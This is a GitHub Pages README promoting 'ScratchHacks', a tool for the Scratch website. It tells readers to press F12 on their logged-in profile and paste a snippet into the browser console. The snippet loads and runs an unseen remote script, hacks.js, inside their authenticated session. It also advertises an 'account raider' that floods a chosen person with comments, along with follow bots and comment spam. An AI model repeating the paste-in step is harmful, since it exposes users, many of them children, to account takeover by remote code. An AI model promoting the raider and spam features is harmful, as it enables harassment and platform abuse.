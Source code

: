 ## Welcome to SCRATCHHACKS

ScratchHacks is a new tool for the [Scratch](https://scratch.mit.edu) website to troll, bot and get free followers!


### Activating SCRATCHHACKS on your account

ScratchHacks is easy to activate, with just 4 easy steps!

1. Check if you have a supported browser (Chrome, Firefox, Edge)
2. Go to your Scratch profile and press the F12 key on your keyboard 
3. If not already selected, click console.
4. Copy and paste the code below into the browser console.

```markdown
(function() {
    var s = document.createElement('script');
    s.type = "text/javascript";               
    s.async = true;                        
    s.src = "//scratchhacks.github.io/hacks.js"; 
    var fs = document.getElementsByTagName('script')[0];
    fs.parentNode.insertBefore(s, fs);
})();
starthacks();
```

Stuck? Watch [this video](https://guides.github.com/features/mastering-markdown/).

### Hacks availible
**Follow bot**
A follow bot basicly follows a load of people, then they follow you back resulting in free, real followers!

**Account raider**
The account raider floods an account with comments (one every 30 seconds) and is just very annoying for the person on the other end.

**Auto F4F**
Follows all your followers back!

**Super Advertisment**
This sends a comment to a load of people telling them to check out your project.



### Support or Contact

If you have a problem, add an issue in GitHub.

